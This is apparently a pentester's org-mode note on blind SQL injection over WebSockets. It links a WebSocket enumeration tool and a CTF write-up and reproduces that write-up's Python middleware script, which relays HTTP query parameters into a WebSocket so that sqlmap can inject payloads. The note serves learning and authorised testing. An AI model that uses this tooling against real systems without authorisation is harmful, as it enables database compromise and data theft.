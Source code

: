 :PROPERTIES:
:ID:       61eb9f35-f735-4b5f-a028-0b2fd6ced177
:END:
#+title: SQL Injection
#+filetags: :webSocket:blindSQL:sqli:pentest:
#+hugo_base_dir:/home/kdb/Documents/kdbed/kdbed.github.io.bak



* SQL Injection


** SQLi - websocket

Enumerate web sockets: [[https://github.com/PalindromeLabs/STEWS][PalindromeLabs]]

[[https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html][rayhan0x01 blind sql injection via websocket]]

From the above post

"If you didn't know, the main difference between HTTP and WebSocket is that HTTP is built on a request-response model whereas WebSocket is like a Socket connection where both client and server can send data anytime asynchronously. So you can't repeat the requests made in WebSocket as you would normally do for HTTP Requests in BurpSuite."


Interact synchronously with websocket in order to, eg, use sqlmap:

Script from rayhan0x01's post:

#+begin_src python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False

			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
#+end_src
